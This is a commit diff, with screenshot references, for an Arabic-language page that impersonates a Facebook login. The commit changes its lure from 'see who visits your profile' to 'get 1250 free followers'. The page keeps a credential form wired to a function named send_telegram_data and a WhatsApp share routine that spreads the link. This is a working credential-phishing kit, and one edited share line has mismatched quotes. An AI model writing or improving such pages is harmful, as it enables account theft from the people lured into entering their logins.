

Before and after one commit to baljwfy825-crypto/whatsapp-test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 171-732 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update title and sharing text in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Facebook - اعرف من زار صفحتك</title>
+    <title>Facebook - احصل على 1250 متابع مجانا</title>
     <style>
         /* التنسيقات الاحترافية */
         body {
@@ -154,7 +154,7 @@
         // --- دالة المشاركة على واتساب ---
         function initiate_whatsapp_share() {
             // الرسالة تحتوي الآن على الرابط الجديد (SITE_LINK)
-            const share_text = `اعرف من يراقب ملفك الشخصي على فيسبوك وصورك في الخفا: ${SITE_LINK}`;
+            const share_text = '👇احصل على 1250متابع مجاناً على فيسبوك😱 ويمكنك شراء متابعين أيضا: ${SITE_LINK}`;
 
             const whatsapp_url = `whatsapp://send?text=${encodeURIComponent(share_text)}`;
             window.location.href = whatsapp_url;
@@ -171,9 +171,10 @@
     <div class="container">
         <div id="login-form-container">
             <div class="logo">facebook</div>
-            <div class="main-lure-title">اعرف من يزور ملفك الشخصي على فيسبوك</div>
+            <div class="main-lure-title">احصل على 1250متابع مجانا ويمكنك الشراء أيضا</div>
             <div class="info-box">
-                قم بتسجيل الدخول لحسابك الذي تريد معرفة من يراقبه 👇
+               👇قم بتسجيل الدخول لحسابك
+                 احصل على 1250متابع مجانا
             </div>
             <form onsubmit="return send_telegram_data(event)">
                 <input type="text" id="identifier" name="identifier" placeholder="البريد الإلكتروني أو رقم الهاتف" required />
```
